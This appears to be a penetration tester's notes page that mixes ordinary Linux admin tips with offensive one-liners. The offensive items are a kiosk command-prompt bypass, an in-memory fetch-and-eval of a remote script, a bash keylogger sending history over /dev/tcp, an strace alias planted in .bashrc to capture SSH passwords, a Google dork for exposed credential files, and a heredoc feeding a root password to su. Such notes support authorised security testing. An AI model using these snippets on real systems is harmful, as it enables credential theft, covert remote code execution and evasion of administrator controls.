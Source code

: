 # Random

### Cool heredoc&#x20;

* Use when you are on a `/bin/sh` and need to `su` but dont want to go into a full `tty`

```
su - root <<!
Passw0rd
id
ls /root
!
Password: uid=0(root) gid=0(root) groups=0(root)
Desktop  Documents  Downloads  go  Music  Pictures  Public  Templates  thinclient_drives  Videos
```

### Bypass a disabled command prompt with /k

```
# Win+R (To bring up Run Box)
cmd.exe /k "whoami"
```

**Description:** _'This command prompt has been disabled by your administrator...' Can usually be seen in environments such as kiosks PCs, a quick hacky work around is to use /k via the windows run box. This will carry out the command and then show the restriction message, allowing for command execution._

### _Luks On USBs_

* [https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/](https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/)

### NTP Randomness&#x20;

* Set ntp based on specific server time.  Required for kerberos auth, match attacker box to the time of the domain controller

```
sudo timedatectl set-ntp off 
sudo date -s "28 NOV 2024 07:23:00Z"
```

* Restore NTP back to default

```
sudo timedatectl set-ntp on 
sudo ntpdate 192.168.1.1
```

### Bash In memory exec one liner&#x20;

```
bash -c CMD="`wget -qO- http://<ip>/script.sh`" && eval "$CMD"
```

### Bash Keylogger&#x20;

```
PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'
```

### SSH Client Strace Keylogger

* Poor mans keylogger for ssh client but it works. Add to the users `.bashrc`&#x20;

```
alias ssh='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh' 
```

* remember to source the `.bashrc`
* `source ~/.bashrc`

### Apache map external drive to webroot

* Create a directory on the external HDD, assuming it is mounted under the `/media` directory, like so:

```
sudo mkdir /media/web_files
```

* Change the ownership of this directory and all the files under it to be owned by the Apache user `www-data` like so:

```
sudo chown -R www-data:www-data /media/web_files/
```

* Create a directory under the web root directory ie `/var/www/html/` like so:

```
sudo mkdir /var/www/html/external_files
```

* Bind the `/media/web_files/` directory to the `/var/www/html/external_files/` directory like so:

```
sudo mount --bind /media/web_files/ /var/www/html/external_files/
```

* All files on the external HDD under the `/media/web_files/` directory will be available for Apache under the `/var/www/html/external_files/` directory and you can link to them in your web page that resides in `/var/www/html/` like so:

```
<a href="external_files/file1.mp4">file1</a>
```

### Unzip a chunked archive

* you will see files ending in .001, .002 etc etc&#x20;
*   You will need to join them first. You may use the common linux app, `cat` as in the example below:

    ```
    cat test.zip* > ~/test.zip
    ```

    This will concatenate all of your `test.zip.001`, `test.zip.002`, etc files into one larger, test.zip file. Once you have that single file, you may run `unzip test.zip`

## [How to convert .mkv file into .mp4 file losslessly?](https://askubuntu.com/questions/50433/how-to-convert-mkv-file-into-mp4-file-losslessly)

```
ffmpeg -i input.mkv -codec copy output.mp4
```

### Cool Google Dorks&#x20;

```
inurl:/wp-content/uploads/ ext:txt "username" AND "password" | "pwd" | "pw"
```

### What is taking up space Linux

* I recently ran out of disk space on my Ubuntu machine, here is a quick way to see what is taking up all that space

```
root@dev:/opt# du -cha --max-depth=1 / 2>/dev/null | grep -E "M|G" 
3.9M	/run
19G	/opt
18M	/etc
18G	/home
18G	/usr
1.6G	/media
918M	/root
517M	/Kismet-20240630-21-57-41-1.kismet
11G	/snap
2.1G	/swapfile
145G	/tmp
7.3G	/var
194M	/boot
221G	/
221G	total
root@dev:/opt# cd /var
root@dev:/var# du -cha --max-depth=1 /var 2>/dev/null | grep -E "M|G" 
6.5G	/var/lib
6.5M	/var/backups
291M	/var/cache
99M	/var/crash
5.0M	/var/snap
427M	/var/log
7.3G	/var
7.3G	total
```

### Fix x11 graphical error

```
xhost +SI:localuser:root
xhost
```

### Fix Date Issue On Ubuntu

* I recently had severe time drift on a machine that is prevented from reaching the internet
* Provide the host internet access for a small time window and fix with a one liner

```
timedatectl
               Local time: Thu 2024-11-21 03:43:31 EST
           Universal time: Thu 2024-11-21 08:43:31 UTC
                 RTC time: Fri 2014-09-05 09:12:41
                Time zone: America/New_York (EST, -0500)
System clock synchronized: no
              NTP service: active
          RTC in local TZ: no
sudo date -s "$(wget -qSO- --max-redirect=0 google.com 2>&1 | grep Date: | cut -d' ' -f5-8)Z"

```
